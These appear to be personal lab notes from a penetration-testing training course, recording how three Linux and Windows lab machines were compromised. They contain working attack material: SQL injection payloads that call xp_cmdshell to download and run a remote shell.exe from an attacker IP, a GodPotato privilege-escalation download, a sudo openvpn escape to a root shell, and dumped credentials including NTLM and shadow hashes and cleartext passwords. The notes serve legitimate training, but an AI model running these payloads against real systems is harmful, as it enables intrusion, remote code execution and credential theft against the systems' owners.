 # VM 3 (pwned)
- WEB01
- ```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
    |   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
    |_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
    80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
    |_http-title: PAW! (PWK Awesome Website)
    |_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
## Foothold
- found credential in DC01
  ```
  ssh offsec@192.168.220.120
  century62hisan51
  ```
## Root
- offsec is sudoer
  ```
  sudo su
  ```


# VM 4 (pwned)
- Web02
- Microsoft Windows Server 2022 Standard
- 10.0.20348 N/A Build 20348

## FootHold
- Ez SQLi
    ``` 
    ';EXEC master.dbo.xp_cmdshell 'ping 192.168.45.219';--
    ';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://192.168.45.201/shell.exe C:\\Windows\temp\shell.exe';--
    ';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\shell.exe';--
    ```
## Root 
- SeImpersonate Permission Found & NET4.0 -> GodPotato
  ```
    iwr -uri http://192.168.45.155/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
    .\GodPotato-NET4.exe -cmd 'whoami'
    .\GodPotato-NET4.exe -cmd 'C:\Windows\temp\shell.exe'
   ```
- Interesting Info
    1. ``` 
            Version: NetNTLMv2
            Hash:    WEB02$::MEDTECH:1122334455667788:757d0de376d8456d510a56bbc91d2ab2:0101000000000000229fe7efdce0da013a25e15c16fb223a000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000
      ```
    2. Joe 
      ```
        Authentication Id : 0 ; 283886 (00000000:000454ee)
        Session           : Service from 0
        User Name         : joe
        Domain            : MEDTECH
        Logon Server      : DC01
        Logon Time        : 4/8/2024 12:06:58 PM
        SID               : S-1-5-21-976142013-3766213998-138799841-1106
                msv :
                [00000003] Primary
                * Username : joe
                * Domain   : MEDTECH
                * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
                * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
                * DPAPI    : 58de53296298ce0f98087ae902c88735
                tspkg :
                wdigest :
                * Username : joe
                * Domain   : MEDTECH
                * Password : (null)
                kerberos :
                * Username : joe
                * Domain   : MEDTECH.COM
                * Password : Flowers1
                ssp :
                credman :
                cloudap :
        ```

# VM 5 (pwned)
- VPN
- ```
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
    |_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
    1194/tcp open  openvpn?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
## Foothold
```
    ssh offsec@192.168.244.122
    password
```

## Root?
- Get runable sudo in ``` history ``` LOLL...
- ```
    sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
  ```

## Interesting Info
  ```
  mario:$y$j9T$WlF.5NfkOQ2xN4K9OPM2e1$X/wrPHU0zaz.dGUjFQGLj5nbrTfNpy0Hm6Xev04aUw8:19268:0:99999:7:::
  ```